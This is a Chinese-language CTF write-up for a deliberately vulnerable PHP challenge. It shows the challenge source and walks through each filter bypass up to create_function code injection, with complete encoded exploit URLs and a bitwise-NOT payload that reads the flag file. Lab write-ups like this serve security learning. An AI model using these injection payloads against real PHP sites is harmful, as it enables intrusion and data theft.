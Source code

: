![](<./img/Pasted image 20230128091647.png>)

![](<./img/Pasted image 20230128091626.png>)

![](<./img/Pasted image 20230128091725.png>)

![](<./img/Pasted image 20230128091954.png>)

```
/1nD3x.php
```

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

这题真的是体现了不少`php`的特性qaq

# 绕过`$_SERVER['QUERY_STRING']`的过滤

```php
if($_SERVER) { 
    if (preg_match('...', $_SERVER['QUERY_STRING']))  
        die('You seem to want to do something bad?'); 
}
```

由于`$_SERVER['QUERY_STRING']`不对查询字符串进行`url`解码，而`$_GET`会进行`url`解码，因此可以通过`url`编码绕过过滤

# 绕过`aqua_is_cute`

有圣人曰

![](<./img/Pasted image 20230128100732.png>)

（大雾）

又是一个看似矛盾的判断

```php
if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') {}
```

`/^...$/`这种形式也能完全匹配字符串最后带换行符的情况，也就是可以通过加上`%0a`绕过

# 不准`hate English`

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

`php`在同时接收到`url`的查询字符串以及`POST`传递的参数，且参数名相同时，优先采用`POST`的参数值作为`$_REQUEST`中的参数值

因此对于传递的所有`url`查询参数，只需`POST`一组参数名相同但值不包含字母的参数即可绕过

# `debu_debu_aqua`

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

常规的`data`伪协议绕过

# 绕过`sha1`

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

通过数组使`sha1`函数返回`false`

# `create_function`注入

`php`的`create_function`貌似是通过字符串拼接后调用`eval`来实现的（过于谔谔），于是可以通过`}`来使后面的代码变成顶级语句让`eval`来执行

```
/1nD3x.php?file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute%0a&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//
```

进行`url`编码

```
/1nD3x.php?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7D%76%61%72%5F%64%75%6D%70%28%67%65%74%5F%64%65%66%69%6E%65%64%5F%76%61%72%73%28%29%29%3B%2F%2F
```

同时`POST`这些东西

```
file=1&debu=1&shana=1&passwd=1&flag=1
```

---

```html
<img src="meaqua.png" width="650" height="650" alt="MeAqua天下第一!" />
```

![](<./img/Pasted image 20230128123734.png>)

~~美少女贴贴！~~

![](<./img/Pasted image 20230128124336.png>)

使用`php://filter`读取经过`base64`编码的`rea1fl4g.php`的内容并使用`require`包含到网页中

通过取反绕过过滤

```php
<?php
$payload = $argv[1];
print(urlencode(~$payload));
```

```php
require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F)
```

```
/1nD3x.php?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7D%72%65%71%75%69%72%65(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))%3B%2F%2F
```

![](<./img/Pasted image 20230128133626.png>)

```php
<html>
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
<title>Real_Flag In Here!!!</title>
</head>
</html>
<?php
	echo "咦，你居然找到我了？！不过看到这句话也不代表你就能拿到flag哦！";
	$f4ke_flag = "BJD{1am_a_fake_f41111g23333}";
	$rea1_f1114g = "flag{0689e68e-6604-4ff8-a924-af158fb5072e}";
	unset($rea1_f1114g);

```

#Web #PHP #特性 #绕过 #代码审计 #变量 #特殊 #create_function注入 
